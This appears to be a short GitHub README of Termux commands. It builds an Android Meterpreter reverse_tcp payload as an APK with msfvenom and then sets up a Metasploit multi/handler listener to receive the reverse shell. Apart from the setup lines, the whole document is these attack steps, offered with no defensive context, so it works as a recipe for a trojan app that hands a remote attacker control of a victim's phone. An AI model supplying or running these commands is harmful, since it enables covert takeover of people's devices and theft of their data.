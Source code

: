 # my-command
Termux
apt update && apt upgrade -y
termux-setup-storage
ls
msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT= -o,/sdcard/A2.apk

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 
set lport
exploit
